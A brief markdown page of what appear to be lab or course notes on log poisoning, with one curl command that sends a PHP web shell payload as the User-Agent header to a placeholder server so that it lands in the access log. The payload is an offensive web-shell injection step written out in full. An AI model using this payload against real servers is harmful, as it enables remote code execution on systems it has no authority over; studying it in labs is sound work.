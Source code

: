 ```yaml
---
title: Log Poisoning
---
```


## Server Log Poisoning

```
Jerad Rodgers@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
```

<img src="/assets/images/rfi_log-poison.png"/>